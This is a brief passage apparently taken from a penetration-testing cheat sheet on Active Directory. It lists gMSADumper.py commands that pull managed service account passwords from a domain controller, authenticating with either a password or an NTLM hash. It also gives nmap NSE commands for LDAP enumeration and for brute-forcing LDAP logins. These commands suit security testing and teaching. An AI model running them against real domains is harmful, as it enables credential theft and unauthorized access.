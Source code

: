 ```
$ python3 gMSADumper.py -d megacorp.local -l DC1.megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python3 gMSADumper.py -d megacorp.local -l DC1.megacorp.local -u snovvcrash -p fc525c9683e8fe067095ba2ddc971889:fc525c9683e8fe067095ba2ddc971889
```



### Nmap NSE

```
$ nmap -n -Pn -sV --script ldap-rootdse 192.168.1.11 -p389
$ nmap -n -Pn -sV --script ldap-search 192.168.1.11 -p389
$ nmap -n -Pn -sV --script ldap-brute 192.168.1.11 -p389
```
